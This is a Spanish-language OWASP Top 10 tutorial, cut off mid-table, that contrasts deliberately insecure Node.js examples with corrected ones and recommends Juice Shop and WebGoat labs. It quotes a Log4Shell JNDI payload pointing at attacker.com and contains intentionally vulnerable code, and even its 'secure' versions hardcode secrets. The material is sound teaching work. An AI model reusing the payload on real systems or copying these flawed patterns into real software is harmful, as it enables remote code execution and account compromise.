### 🔎 BONUS: Cómo detectar Injection con herramientas

#### ✅ OWASP ZAP (Zed Attack Proxy)

1. Descarga ZAP: 👉 [https://www.zaproxy.org/download/](https://www.zaproxy.org/download/)
2. Ejecuta un **"Quick Scan"** con la URL de DVWA
3. ZAP detectará automáticamente si los parámetros son vulnerables a inyecciones

También puedes usar:

- **Burp Suite**
- **SQLMap** → escáner especializado en SQL Injection
- **Postman** → para hacer pruebas manuales

---

### 🧠 Buenas prácticas para evitar _Injection_

| Recomendación                     | ¿Por qué es importante?                                      |
| --------------------------------- | ------------------------------------------------------------ |
| ✅ Usa consultas preparadas       | Protege contra inyecciones SQL                               |
| ✅ Valida y filtra entradas       | No aceptes datos sin revisar formato, tipo, longitud         |
| ✅ Escapa caracteres peligrosos   | Si usas comandos o plantillas                                |
| ✅ No construyas código con datos | No armes SQL, comandos o JSON con datos directos del usuario |
| ✅ Usa ORM modernos               | Frameworks como Sequelize, Eloquent, Hibernate lo hacen bien |

---

### 📦 RESUMEN FINAL

| Elemento            | Explicación                                             |
| ------------------- | ------------------------------------------------------- |
| ¿Qué es Injection?  | Inyectar comandos maliciosos en consultas o intérpretes |
| ¿Cómo se produce?   | Cuando no se validan o escapan correctamente los datos  |
| ¿Qué puede causar?  | Robos de datos, acceso no autorizado, borrado de info   |
| Cómo practicarlo    | Instalar DVWA y probar entradas SQL                     |
| Cómo protegerse     | Usar _prepared statements_, validación, escapes         |
| Herramientas útiles | OWASP ZAP, Burp, SQLMap, Postman                        |

---

[🔼](#índice)

---

## **766. Insecure Design**

### 🎯 ¿Qué es Insecure Design?

**Insecure Design** significa que la aplicación ha sido **mal diseñada desde su base en términos de seguridad**, lo que permite a los atacantes aprovecharse de su funcionamiento normal sin necesidad de encontrar errores técnicos.

> 💬 **No se trata de errores en el código**, sino de **decisiones de diseño inseguras**.

---

### 🧠 Diferencia clave:

| Tipo de problema           | ¿Qué lo causa?                                           |
| -------------------------- | -------------------------------------------------------- |
| **Vulnerabilidad técnica** | Un fallo en el código o configuración                    |
| **Diseño inseguro**        | Una decisión de arquitectura o lógica que permite abusos |

---

### 💣 Ejemplos fáciles de Insecure Design

#### ❌ Ejemplo 1: Aplicación que no limita intentos de login

- Si un atacante puede probar contraseñas infinitas sin restricción, aunque el código esté bien hecho, **el diseño es inseguro**.

#### ❌ Ejemplo 2: Permitir que el cliente controle su propio rol

```json
{
  "username": "pepe",
  "rol": "admin"
}
```

Si el rol de usuario se puede cambiar desde el navegador, el **diseño de confianza en el cliente es inseguro**.

#### ❌ Ejemplo 3: Permitir transferencias sin confirmar saldo

Una app que permite al usuario transferir fondos sin verificar si tiene suficiente dinero: es un **fallo lógico de diseño**, no técnico.

---

### 🚨 ¿Por qué es tan grave?

Porque ni los mejores firewalls o cifrados pueden proteger una app que **fue mal pensada desde su estructura**.

Aunque no haya errores técnicos, el atacante puede explotar **fallos lógicos** o abusar del flujo normal.

---

### 🧪 Cómo instalar un entorno para practicar Insecure Design

Usaremos una de estas opciones:

---

#### ✅ Opción A: OWASP Juice Shop (recomendado)

Juice Shop tiene vulnerabilidades lógicas muy buenas para practicar este tipo de fallos.

##### 🐳 Instalar con Docker

```bash
docker pull bkimminich/juice-shop
docker run -d -p 3000:3000 bkimminich/juice-shop
```

Abre en tu navegador:

```
http://localhost:3000
```

Es una tienda online **vulnerable a todo tipo de fallos de diseño**.

---

#### ✅ Opción B: OWASP WebGoat

WebGoat tiene lecciones específicas de diseño inseguro.

##### 🐳 Instalar con Docker:

```bash
docker pull webgoat/webgoat
docker run -d -p 8080:8080 webgoat/webgoat
```

Abrir en:

```
http://localhost:8080/WebGoat
```

Usuario: `guest`
Contraseña: `guest`

---

### ✅ Ejemplo completo de Insecure Design

Vamos a ver un caso muy claro:

---

### 🔴 Código INSEGURO (Node.js)

#### Escenario:

Una API de transferencia de fondos que **no verifica el saldo** antes de transferir.

```js
app.post("/transferir", async (req, res) => {
  const { desde, hacia, monto } = req.body;

  // 🚨 No se verifica si "desde" tiene saldo suficiente
  await db.query("UPDATE cuentas SET saldo = saldo - ? WHERE id = ?", [
    monto,
    desde,
  ]);
  await db.query("UPDATE cuentas SET saldo = saldo + ? WHERE id = ?", [
    monto,
    hacia,
  ]);

  res.send("Transferencia realizada");
});
```

---

#### ⚠️ ¿Qué está mal?

- El sistema asume que si el usuario llama a esta API, **todo está bien**.
- No verifica si el usuario **es dueño de la cuenta de origen**.
- No verifica si hay **saldo suficiente**.

Aunque el código no tiene errores técnicos, el **diseño es completamente inseguro**.

---

### ✅ Código SEGURO (con diseño sólido)

```js
app.post("/transferir", async (req, res) => {
  const { desde, hacia, monto } = req.body;
  const usuarioId = req.user.id; // ID de usuario autenticado

  // 1. Verificar si "desde" le pertenece al usuario
  const cuenta = await db.query(
    "SELECT * FROM cuentas WHERE id = ? AND propietario_id = ?",
    [desde, usuarioId]
  );

  if (!cuenta.length) {
    return res.status(403).send("No tienes permiso para usar esta cuenta");
  }

  // 2. Verificar saldo suficiente
  if (cuenta[0].saldo < monto) {
    return res.status(400).send("Saldo insuficiente");
  }

  // 3. Realizar transferencia
  await db.query("UPDATE cuentas SET saldo = saldo - ? WHERE id = ?", [
    monto,
    desde,
  ]);
  await db.query("UPDATE cuentas SET saldo = saldo + ? WHERE id = ?", [
    monto,
    hacia,
  ]);

  res.send("Transferencia realizada correctamente");
});
```

---

### 🔐 ¿Qué se mejoró?

| Diseño inseguro         | Diseño seguro                              |
| ----------------------- | ------------------------------------------ |
| No validaba el dueño    | Verifica si la cuenta pertenece al usuario |
| No validaba saldo       | Agrega lógica de saldo suficiente          |
| Lógica de negocio pobre | Se introducen reglas claras y defensivas   |

---

### 🛠 ¿Cómo detectar Insecure Design?

#### 🔍 Herramientas como:

- **ZAP** o **Burp Suite** → permiten explorar flujos de negocio (no solo código)
- **Pruebas manuales**: cambiando rutas, parámetros, rol de usuario
- **Análisis de lógica**: revisar diagramas de flujo, casos de uso

---

### ✅ Buenas prácticas para evitar Insecure Design

| Práctica                                | ¿Por qué es importante?                                             |
| --------------------------------------- | ------------------------------------------------------------------- |
| 📄 Diseñar la seguridad desde el inicio | Seguridad no debe ser un “parche”, debe estar en la arquitectura    |
| 🔒 Modelado de amenazas                 | Anticipar cómo un atacante podría abusar de la lógica               |
| 🧪 Pruebas de lógica de negocio         | Validar casos como: duplicar pagos, abusar de límites, roles falsos |
| 🔁 Revisión de roles y permisos         | Separar claramente lo que puede hacer cada tipo de usuario          |
| 🛡️ Aplicar reglas de negocio estrictas  | Validar siempre: dueño, estado, condiciones, límites                |

---

### 🧩 RESUMEN FINAL

| Concepto          | Explicación                                                          |
| ----------------- | -------------------------------------------------------------------- |
| ¿Qué es?          | Errores en el diseño de la lógica de seguridad y control del sistema |
| ¿Cómo se explota? | Abusando el flujo normal (sin hackear, solo usando mal el diseño)    |
| Ejemplos comunes  | Transferencias sin validación, cambios de rol desde el cliente       |
| Cómo practicarlo  | Usando OWASP Juice Shop, WebGoat o simulando flujos inseguros        |
| Cómo prevenirlo   | Diseñar con seguridad, validar lógica, modelar amenazas              |

---

[🔼](#índice)

---

## **767. Security Misconfiguration**

### 🔐 ¿Qué es Security Misconfiguration?

**Security Misconfiguration** es cuando una aplicación, servidor, base de datos o cualquier componente tiene una **configuración insegura** que permite a un atacante:

- Acceder a información sensible
- Tomar el control del sistema
- Explorar rutas ocultas o administrativas

> 💬 Es como dejar una puerta abierta por descuido, aunque la casa esté llena de alarmas.

---

### 🔍 ¿Por qué ocurre?

Porque los sistemas tienen muchas opciones de configuración, y **es fácil olvidarse** de desactivar una función, cambiar una contraseña por defecto, o restringir accesos.

---

### 📦 Ejemplos fáciles de Security Misconfiguration

| Ejemplo                                        | Qué pasa                                                                        |
| ---------------------------------------------- | ------------------------------------------------------------------------------- |
| ❌ **Servidor con puerto de admin público**    | Un atacante puede acceder al panel de administración (`http://tuapp.com/admin`) |
| ❌ **Contraseñas por defecto**                 | Usar `admin:admin` o `root:toor` permite acceso no autorizado                   |
| ❌ **Mensajes de error con detalles internos** | Revela rutas, estructuras de base de datos, tecnologías                         |
| ❌ **Directorios listados**                    | Acceso a carpetas como `http://tuapp.com/files/`                                |
| ❌ **Aplicación en modo debug**                | Muestra información interna, archivos, variables, etc.                          |
| ❌ **Permisos incorrectos en archivos**        | Archivos `.env` o backups accesibles públicamente                               |

---

### 💣 Casos reales famosos

- 🚨 **Equifax (2017)**: No actualizaron Apache Struts → fuga de 147 millones de registros
- 🚨 **Capital One**: Configuración incorrecta de AWS permitía acceso a buckets privados

---

### 🛠 Cómo preparar un laboratorio para practicar Security Misconfiguration

#### ✅ Opción A: OWASP Juice Shop (recomendado)

Incluye retos como:

- Acceso a archivos `.bak`, `.git`, `.env`
- Modo de debug activado
- Headers inseguros

#### 🐳 Instalar con Docker:

```bash
docker pull bkimminich/juice-shop
docker run -d -p 3000:3000 bkimminich/juice-shop
```

Abre en navegador:

```
http://localhost:3000
```

---

#### ✅ Opción B: OWASP WebGoat

Tiene lecciones específicas sobre errores de configuración.

```bash
docker pull webgoat/webgoat
docker run -d -p 8080:8080 webgoat/webgoat
```

Abre en navegador:

```
http://localhost:8080/WebGoat
```

---

### 📌 Cómo detectar errores de configuración

#### 🔧 Herramientas recomendadas:

- 🔍 **OWASP ZAP** o **Burp Suite** → detectan headers, errores, accesos a archivos sensibles
- 🔒 **Nmap** → escanea puertos y servicios inseguros
- 🧪 **Nikto** → prueba configuraciones comunes vulnerables
- 🗃️ **Dirsearch / Gobuster** → encuentra archivos/directorios ocultos

---

### ✅ Ejemplo completo de Security Misconfiguration

#### Escenario:

Tienes una aplicación Node.js con Express que:

- Muestra errores completos
- Deja rutas sensibles sin protección
- Expone variables de entorno

---

#### 🔴 Código INSEGURO:

```js
const express = require("express");
const app = express();

// 🛑 Muestra errores internos en producción
app.use((err, req, res, next) => {
  res.status(500).send(err.stack);
});

// 🛑 Ruta admin sin autenticación
app.get("/admin", (req, res) => {
  res.send("Panel de administración");
});

// 🛑 Sirve archivos estáticos incluyendo .env
app.use(express.static("."));

app.listen(3000, () => {
  console.log("App corriendo en http://localhost:3000");
});
```

---

### 🧨 ¿Qué puede hacer un atacante?

- Entrar a `/admin` sin login
- Ver errores completos y rutas internas
- Acceder a `http://localhost:3000/.env` si existe

---

### ✅ Código CORREGIDO

```js
const express = require("express");
const app = express();
const helmet = require("helmet");

// ✅ Seguridad HTTP básica
app.use(helmet());

// ✅ Manejo de errores ocultando detalles
app.use((err, req, res, next) => {
  console.error(err); // Solo log interno
  res.status(500).send("Error interno del servidor"); // No se expone el stack
});

// ✅ Protección con middleware
function autenticar(req, res, next) {
  const autorizado = req.headers["x-auth"] === "secreto123";
  if (!autorizado) return res.status(403).send("Acceso denegado");
  next();
}

app.get("/admin", autenticar, (req, res) => {
  res.send("Panel seguro");
});

// ✅ No servir archivos sensibles
app.use(
  express.static(".", {
    dotfiles: "deny", // No sirve archivos que empiezan con punto
  })
);

app.listen(3000, () => {
  console.log("App segura en http://localhost:3000");
});
```

---

### 🔐 ¿Qué mejoró?

| Antes                     | Después                    |
| ------------------------- | -------------------------- |
| Mostraba stack de errores | Muestra mensaje genérico   |
| Admin sin protección      | Requiere token de acceso   |
| Servía archivos `.env`    | Los bloquea                |
| Sin headers de seguridad  | Usa `helmet` para reforzar |

---

### 🛡 Buenas prácticas para evitar Security Misconfiguration

| Práctica                                | ¿Qué hace?                                         |
| --------------------------------------- | -------------------------------------------------- |
| ✅ Desactiva mensajes de error en prod  | Evita revelar datos internos                       |
| ✅ Usa headers HTTP seguros (CSP, HSTS) | Previene ataques XSS, sniffing, clickjacking       |
| ✅ Elimina servicios innecesarios       | Reduce la superficie de ataque                     |
| ✅ Restringe rutas internas             | Usa autenticación y control de acceso              |
| ✅ Borra archivos innecesarios (.bak)   | Evita fugas de información o código antiguo        |
| ✅ Usa escáneres de seguridad           | Detectan configuraciones inseguras automáticamente |

---

### 📦 RESUMEN FINAL

| Elemento                           | Explicación                                                 |
| ---------------------------------- | ----------------------------------------------------------- |
| ¿Qué es Security Misconfiguration? | Configuraciones inseguras en servidores, apps o plataformas |
| ¿Cómo se produce?                  | Errores humanos, descuidos, opciones por defecto            |
| ¿Cómo detectarla?                  | Con ZAP, Nikto, revisiones manuales, Nmap, escáneres        |
| ¿Cómo practicarla?                 | Usando OWASP Juice Shop, WebGoat o simulaciones propias     |
| ¿Cómo solucionarla?                | Aplicar buenas prácticas, ocultar errores, proteger rutas   |

---

[🔼](#índice)

---

## **768. Vulnerable and Outdated Components**

### 📌 ¿Qué es?

Esta vulnerabilidad ocurre cuando una aplicación usa **librerías, frameworks, plugins o dependencias desactualizadas**, que **ya tienen fallos de seguridad conocidos**.

> ⚠️ ¡No importa si tú programaste todo bien! Si usas una librería con fallos conocidos, **toda tu app está en riesgo**.

---

### 🧠 ¿Por qué pasa?

- Porque no se actualizan las dependencias con regularidad.
- Porque muchas apps usan paquetes de terceros sin verificar su seguridad.
- Porque a veces se desconoce qué versión es segura.

---

### 📦 Ejemplos sencillos

#### ❌ Ejemplo 1: jQuery obsoleto con vulnerabilidades XSS

```html
<script src="https://code.jquery.com/jquery-1.7.1.min.js"></script>
```

> jQuery 1.7.1 es muy antigua y tiene **fallos XSS conocidos**.

---

#### ❌ Ejemplo 2: Log4j (Log4Shell)

```xml
<!-- En Java con Maven -->
<dependency>
  <groupId>org.apache.logging.log4j</groupId>
  <artifactId>log4j-core</artifactId>
  <version>2.14.1</version>
</dependency>
```

> Log4j 2.14.1 fue vulnerable a **RCE (Remote Code Execution)** en 2021.
> Esto permitía que un atacante **ejecutara código en tu servidor** con una simple cadena como:

```
${jndi:ldap://attacker.com/a}
```

---

#### ❌ Ejemplo 3: Express.js sin parches

```bash
npm install express@3.0.0
```

> Express 3.x tiene vulnerabilidades de inyección y falta de validación.

---

### ⚙️ ¿Cómo se detecta esta vulnerabilidad?

#### 🔍 Escáneres automáticos:

- **npm audit** (Node.js)
- **yarn audit**
- **OWASP Dependency-Check**
- **Retire.js** (JavaScript)
- **Safety** (Python)
- **Snyk** (multi-plataforma)
- **Trivy** (Docker, Kubernetes)

---

### 🧪 Cómo preparar un laboratorio para practicar

#### ✅ Opción A: OWASP Juice Shop

Juice Shop incluye ejemplos de vulnerabilidades por componentes inseguros.

##### 🐳 Instalar con Docker:

```bash
docker pull bkimminich/juice-shop
docker run -d -p 3000:3000 bkimminich/juice-shop
```

---

#### ✅ Opción B: Proyecto vulnerable manual

Puedes crear tu propia app con un paquete desactualizado.
Te lo muestro a continuación.

---

### ✅ Ejemplo completo con aplicación vulnerable

Vamos a crear una **API en Node.js con Express** usando una librería desactualizada y luego solucionarlo.

---

### 🔴 Paso 1: Crear app con componente inseguro

#### 1. Crea un proyecto:

```bash
mkdir vulnerable-app
cd vulnerable-app
npm init -y
```

#### 2. Instala una versión insegura de `express`:

```bash
npm install express@3.0.0
```

#### 3. Crea el archivo `index.js`:

```js
const express = require("express");
const app = express();

app.get("/", (req, res) => {
  res.send("App con Express 3.0.0");
});

app.listen(3000, () => {
  console.log("Escuchando en http://localhost:3000");
});
```

---

#### 4. Ejecuta la app

```bash
node index.js
```

Abre: [http://localhost:3000](http://localhost:3000)

---

### ⚠️ ¿Dónde está el problema?

- Express 3.0.0 tiene múltiples fallos de seguridad, por ejemplo:

  - Falta de escape automático de valores HTML.
  - Vulnerabilidades XSS y header injection.

---

### ✅ Paso 2: Detectar el problema con `npm audit`

Ejecuta:

```bash
npm audit
```

Verás advertencias sobre vulnerabilidades críticas.

---

### ✅ Paso 3: Solucionar el problema

Actualiza a una versión segura:

```bash
npm install express@latest
```

Ahora vuelve a correr:

```bash
npm audit
```

¡Y verás que ya no hay vulnerabilidades!

---

### 🔐 Buenas prácticas para evitar componentes vulnerables

| Práctica                                         | ¿Qué hace?                                               |
| ------------------------------------------------ | -------------------------------------------------------- |
| 🔄 Mantén tus dependencias al día                | Evita usar versiones antiguas con fallos conocidos       |
| 🛡 Usa escáneres automáticos                      | Detectan vulnerabilidades en tus librerías o frameworks  |
| 📄 Usa un archivo lock (package-lock.json, etc.) | Asegura versiones específicas, evita cambios silenciosos |
| 🔐 Verifica la fuente de las librerías           | Evita instalar paquetes maliciosos o falsos              |
| 🧪 Usa entornos de staging                       | Prueba actualizaciones antes de pasarlas a producción    |

---

### 📌 RESUMEN

| Concepto          | Explicación                                                         |
| ----------------- | ------------------------------------------------------------------- |
| ¿Qué es?          | Uso de librerías, frameworks o plugins desactualizados o con fallos |
| Ejemplos comunes  | Log4j, jQuery antiguo, Express inseguro                             |
| Cómo se detecta   | Con escáneres como `npm audit`, `Snyk`, `OWASP Dependency-Check`    |
| Cómo se soluciona | Actualizando o reemplazando componentes inseguros                   |
| Cómo evitarlo     | Mantener todo actualizado, automatizar auditorías                   |

---

[🔼](#índice)

---

## **769. Identification and Authentication Failures**

### 🔐 ¿Qué es Identification and Authentication Failures?

Es cuando una aplicación **no implementa correctamente los mecanismos para identificar (saber quién eres) y autenticar (verificar si eres tú realmente)** a los usuarios, lo que permite que:

- Usuarios no autorizados accedan a cuentas ajenas
- Se realicen ataques como fuerza bruta, robo de sesión, bypass de login
- Se omitan controles como el bloqueo de cuentas o verificación en dos pasos

---

### 📌 ¿Qué incluye este tipo de fallos?

- ❌ Contraseñas débiles o sin protección
- ❌ Permitir intentos de inicio ilimitados (fuerza bruta)
- ❌ No invalidar tokens/sesiones al cerrar sesión
- ❌ No usar MFA (autenticación multifactor)
- ❌ No verificar correctamente la identidad del usuario

---

### 🧠 Ejemplos fáciles de entender

#### 🔓 1. Login sin límite de intentos

```bash
POST /login
Body:
{ "username": "admin", "password": "1234" }
```

Puedes intentar millones de combinaciones.
🧨 ¡Un atacante puede forzar la contraseña!

---

#### 🔑 2. Tokens de sesión que no expiran

Si un token de acceso sigue siendo válido **aunque el usuario cerró sesión hace horas o días**, alguien puede robarlo y acceder sin ser detectado.

---

#### 🧙 3. Contraseña débil aceptada

```plaintext
Usuario: pedro
Contraseña: 1234
```

Si el sistema permite este tipo de contraseñas, es **muy fácil de adivinar**.

---

#### 🛑 4. Login sin validación de usuario

```javascript
if (req.body.username == "admin") {
  // acceso sin verificar la contraseña
}
```

🧨 ¡Acceso total solo por el nombre!

---

### 🧪 ¿Cómo practicar esta vulnerabilidad?

#### ✅ Opción A: OWASP Juice Shop

Incluye fallos como:

- Login sin protección
- Tokens inseguros
- Sesiones no invalidadas
- Accesos sin autenticación

##### 🐳 Instalar:

```bash
docker pull bkimminich/juice-shop
docker run -d -p 3000:3000 bkimminich/juice-shop
```

Navega a: `http://localhost:3000`
Busca los retos relacionados con "Authentication".

---

#### ✅ Opción B: WebGoat (lección específica)

```bash
docker pull webgoat/webgoat
docker run -d -p 8080:8080 webgoat/webgoat
```

Navega a: `http://localhost:8080/WebGoat`
Haz login con `guest / guest`.

---

### 🧰 Herramientas para detectar fallos de autenticación

| Herramienta       | Uso                                                  |
| ----------------- | ---------------------------------------------------- |
| 🔍 **Burp Suite** | Automatiza pruebas de login, fuzzing de contraseñas  |
| 🔐 **Hydra**      | Ataques de fuerza bruta por CLI                      |
| 🕷️ **OWASP ZAP**  | Detecta sesiones inseguras, cookies mal configuradas |
| 🧪 **Postman**    | Probar tokens, sesiones, login/logout                |

---

### ✅ Ejemplo completo de fallo de autenticación

Vamos a hacer un ejemplo real con **Node.js + Express**, mostrando una mala implementación y cómo mejorarla.

---

#### 🔴 Paso 1: Código inseguro (fallo de autenticación)

Crea un proyecto:

```bash
mkdir auth-fail && cd auth-fail
npm init -y
npm install express body-parser
```

##### Código (`index.js`):

```js
const express = require("express");
const bodyParser = require("body-parser");
const app = express();
app.use(bodyParser.json());

// 🔴 LOGIN inseguro: sin límite de intentos, sin hashing
const USERS = [{ username: "admin", password: "1234" }];

app.post("/login", (req, res) => {
  const { username, password } = req.body;
  const user = USERS.find(
    (u) => u.username === username && u.password === password
  );
  if (user) {
    res.send("Bienvenido " + username);
  } else {
    res.status(401).send("Credenciales inválidas");
  }
});

app.listen(3000, () => console.log("Inseguro en http://localhost:3000"));
```

---

#### 🔍 ¿Qué problemas hay aquí?

| Problema                         | Riesgo                              |
| -------------------------------- | ----------------------------------- |
| 🔓 Contraseñas sin hash          | Se pueden robar fácilmente          |
| 🚫 Sin límite de intentos        | Se puede hacer fuerza bruta         |
| ❌ No hay token ni sesión segura | Cualquiera puede replicar la sesión |
| 🙈 Contraseña "1234" aceptada    | Muy débil, fácil de adivinar        |

---

#### ✅ Paso 2: Código seguro (corregido)

Instala dependencias adicionales:

```bash
npm install bcrypt jsonwebtoken express-rate-limit
```

#### Código seguro (`index.js`):

```js
const express = require("express");
const bodyParser = require("body-parser");
const bcrypt = require("bcrypt");
const jwt = require("jsonwebtoken");
const rateLimit = require("express-rate-limit");

const app = express();
app.use(bodyParser.json());

// ✅ Límite de intentos
const loginLimiter = rateLimit({
  windowMs: 1 * 60 * 1000, // 1 minuto
  max: 5, // Máximo 5 intentos por IP
  message: "Demasiados intentos. Intenta más tarde.",
});
app.use("/login", loginLimiter);

// ✅ Usuarios con contraseña cifrada
const hashedPassword = bcrypt.hashSync("Segura123", 10);
const USERS = [{ username: "admin", password: hashedPassword }];

app.post("/login", async (req, res) => {
  const { username, password } = req.body;
  const user = USERS.find((u) => u.username === username);
  if (user && (await bcrypt.compare(password, user.password))) {
    const token = jwt.sign({ username }, "clave_secreta", { expiresIn: "15m" });
    res.json({ mensaje: "Login exitoso", token });
  } else {
    res.status(401).send("Credenciales inválidas");
  }
});

app.listen(3000, () => console.log("Seguro en http://localhost:3000"));
```

---

#### ✅ Mejoras aplicadas:

| Seguridad aplicadas         | Descripción                       |
| --------------------------- | --------------------------------- |
| 🔐 Contraseñas con `bcrypt` | Más seguras, no legibles          |
| 🛡 Límite de intentos        | Evita ataques de fuerza bruta     |
| 🔑 Token JWT con expiración | Autenticación moderna y revocable |
| ⏳ Expiración del token     | Token dura 15 minutos             |

---

### 🔒 Buenas prácticas para prevenir estos fallos

| Práctica                          | ¿Por qué es importante?                        |
| --------------------------------- | ---------------------------------------------- |
| ✅ Hash de contraseñas (`bcrypt`) | Evita robo de contraseñas en base de datos     |
| ✅ Límite de intentos             | Previene fuerza bruta y automatización         |
| ✅ MFA (Autenticación 2FA)        | Agrega una segunda capa de seguridad           |
| ✅ Token con expiración           | Controla duración y revocación de sesiones     |
| ✅ Validación de sesiones activas | Cierre de sesión efectivo, evita reutilización |

---

### 📦 RESUMEN FINAL

| Tema              | Detalles clave                                        |
| ----------------- | ----------------------------------------------------- |
| ¿Qué es?          | Fallos al identificar o autenticar usuarios           |
| Ejemplos comunes  | Contraseñas débiles, sin hash, sin límite de intentos |
| Cómo practicarlo  | Juice Shop, WebGoat, app Express                      |
| Cómo solucionarlo | Hashing, tokens, límites, MFA, expiración             |

---

[🔼](#índice)

---

## **770. Software and Data Integrity Failures**

### 🧨 Software and Data Integrity Failures

También conocida como “fallas de integridad de software y datos”.

---

### 📌 ¿Qué es?

Esta vulnerabilidad ocurre cuando una aplicación:

- **Confía ciegamente** en **actualizaciones de software**, **plugins**, **scripts externos** o **datos no verificados**
- **No valida la integridad o autenticidad** del contenido antes de ejecutarlo o usarlo

> Esto puede ser explotado por atacantes para inyectar código malicioso, modificar datos o tomar el control de un sistema.

---

### 🧠 Ejemplo simple para entender

#### 😬 Caso 1: Script externo sin validación

```html
<script src="https://ejemplo.com/lib.js"></script>
```

⚠️ Si alguien compromete `https://ejemplo.com/lib.js`, podrá inyectar código malicioso en tu sitio.

---

#### 😬 Caso 2: Actualización automática sin firma

Una app que descarga actualizaciones de:

```
http://actualizaciones.com/parche.zip
```

Y lo ejecuta sin verificar si es legítimo → 🔥 **¡Riesgo de malware o backdoors!**

---

#### 😬 Caso 3: CI/CD inseguro

En pipelines de DevOps, si permites que usuarios externos suban código a GitHub sin revisar, ese código puede desplegarse automáticamente en producción.

---

### 🎯 ¿Qué puede causar esta falla?

- Uso de librerías de terceros no verificadas
- Cargas automáticas sin verificación de integridad (firmas, hashes)
- Repositorios comprometidos (supply chain attacks)
- CI/CD mal configurado
- Uso de datos no validados como configuraciones

---

### 🔎 ¿Cómo prevenir?

| Acción                            | Descripción                                                   |
| --------------------------------- | ------------------------------------------------------------- |
| ✅ Validar firmas digitales       | Asegurarse que los archivos provienen de una fuente confiable |
| ✅ Verificar hashes SHA-256       | Comparar el hash del archivo con el oficial                   |
| ✅ Usar HTTPS                     | Evita la manipulación de contenido en tránsito                |
| ✅ Restringir scripts de terceros | Con CSP y Subresource Integrity (SRI) en HTML                 |
| ✅ Proteger pipeline CI/CD        | Usar revisiones, tokens, permisos y control de ramas          |

---

### 📦 Herramientas útiles

| Herramienta            | Uso principal                                          |
| ---------------------- | ------------------------------------------------------ |
| ✅ `cosign`            | Firmar imágenes de contenedores                        |
| ✅ `slsa.dev`          | Modelo para asegurar cadenas de suministro de software |
| ✅ `npm audit`, `snyk` | Detectar dependencias vulnerables o comprometidas      |
| ✅ `gitleaks`, `trivy` | Verificar código fuente y configuración segura         |

---

### 🧪 Cómo instalar un entorno vulnerable

Una de las mejores formas de practicar esto es usar:

#### ✅ **OWASP Juice Shop**

Tiene vulnerabilidades relacionadas con la integridad de datos.

##### 🐳 Instalar con Docker:

```bash
docker pull bkimminich/juice-shop
docker run -d -p 3000:3000 bkimminich/juice-shop
```

Accede en: `http://localhost:3000`

---

### ✅ Ejemplo completo paso a paso

Vamos a hacer una app simple en **Node.js** que descarga y ejecuta un archivo **sin verificar su integridad**. Luego veremos cómo **corregirlo**.

---

#### 🛠 Paso 1: Crear app vulnerable

```bash
mkdir software-integrity-fail && cd software-integrity-fail
npm init -y
npm install axios unzipper
```

#### Archivo: `downloader.js`

```js
const axios = require("axios");
const fs = require("fs");
const unzipper = require("unzipper");

// 🔴 Descarga y descomprime un archivo externo sin verificar
async function descargarPlugin() {
  const url = "https://example.com/plugin.zip"; // ⚠️ No verificado
  const zipPath = "./plugin.zip";

  const response = await axios({ url, responseType: "stream" });
  response.data.pipe(fs.createWriteStream(zipPath)).on("finish", () => {
    fs.createReadStream(zipPath).pipe(unzipper.Extract({ path: "./plugin" }));
    console.log("¡Plugin descargado y descomprimido!");
  });
}

descargarPlugin();
```

#### ❗Problemas:

- No se verifica si el archivo es confiable
- El atacante puede cambiar el contenido de `plugin.zip`
- Puede incluir código malicioso

---

### ✅ Paso 2: Solución — Verificar hash del archivo

Agrega dependencia:

```bash
npm install crypto
```

Modifica `downloader.js`:

```js
const axios = require("axios");
const fs = require("fs");
const crypto = require("crypto");
const unzipper = require("unzipper");

async function descargarPlugin() {
  const url = "https://example.com/plugin.zip";
  const zipPath = "./plugin.zip";
  const hashEsperado = "1a2b3c4d..."; // SHA-256 correcto

  const response = await axios({ url, responseType: "stream" });
  const file = fs.createWriteStream(zipPath);
  const hash = crypto.createHash("sha256");

  response.data.on("data", (chunk) => hash.update(chunk));
  response.data.pipe(file);

  file.on("finish", () => {
    const hashFinal = hash.digest("hex");
    console.log("Hash descargado:", hashFinal);
    if (hashFinal === hashEsperado) {
      console.log("✔️ Verificado: plugin seguro");
      fs.createReadStream(zipPath).pipe(unzipper.Extract({ path: "./plugin" }));
    } else {
      console.log("❌ El archivo ha sido modificado o es sospechoso");
    }
  });
}

descargarPlugin();
```

---

### ✅ Mejora adicional: Subresource Integrity (SRI) en HTML

En vez de esto:

```html
<script src="https://cdn.example.com/lib.js"></script>
```

Haz esto:

```html
<script
  src="https://cdn.example.com/lib.js"
  integrity="sha384-abc123..."
  crossorigin="anonymous"
></script>
```

---

### 📌 RESUMEN

| Tema                | Detalle                                                       |
| ------------------- | ------------------------------------------------------------- |
| ¿Qué es?            | Ejecutar código/datos sin verificar integridad o fuente       |
| Ejemplos comunes    | Scripts sin SRI, actualizaciones sin firma, CI/CD sin control |
| Cómo practicar      | OWASP Juice Shop, código vulnerable en Node.js                |
| Cómo proteger       | Verificación de hash, firmas, SRI, control de CI/CD           |
| Herramientas útiles | cosign, SLSA, gitleaks, snyk, trivy                           |

---

[🔼](#índice)

---

## **771. Security Logging and Monitoring Failures**

### 📌 ¿Qué es?

Esta categoría se refiere a **la falta de registros (logs) adecuados y sistemas de monitoreo** para detectar, responder y mitigar incidentes de seguridad.

> Si no sabes lo que está pasando dentro de tu sistema, no puedes defenderlo.

---

### 🎯 ¿Por qué es importante?

- 📉 Si no hay **registro de errores o actividad sospechosa**, los ataques pasan desapercibidos.
- 🕑 Si no hay **monitoreo en tiempo real**, no puedes responder rápidamente.
- 🔍 Si los logs están mal diseñados, no sirven para investigaciones posteriores.

---

### 🚨 Ejemplos fáciles de entender

#### 😬 Ejemplo 1: No registrar intentos fallidos de login

Un atacante puede intentar **adivinar contraseñas** cientos de veces, y si no se registran esos intentos, nadie lo nota.

```bash
POST /login
{
  "usuario": "admin",
  "clave": "1234"
}
```

➡️ Si hay 100 intentos con diferentes claves y **no queda ningún registro**, ¡es un riesgo enorme!

---

#### 😬 Ejemplo 2: Logs incompletos

```log
[ERROR] Fallo en login
```

❌ No dice **quién** falló, **desde dónde**, ni **cuándo**.
Los logs deben ser **útiles**, no solo existir.

---

#### 😬 Ejemplo 3: No monitorear accesos sospechosos

Un usuario entra a `/admin` sin permiso y no se registra. O un token robado se usa desde otro país.

➡️ Nadie lo sabrá si no hay monitoreo.

---

### 📉 Consecuencias

| Riesgo              | Ejemplo real                              |
| ------------------- | ----------------------------------------- |
| No detectar ataques | Ransomware en un servidor sin alertas     |
| No saber qué pasó   | Imposible reconstruir un ataque           |
| No actuar a tiempo  | Usuario malicioso roba datos durante días |

---

### ✅ Buenas prácticas

| Práctica                                 | Descripción                                  |
| ---------------------------------------- | -------------------------------------------- |
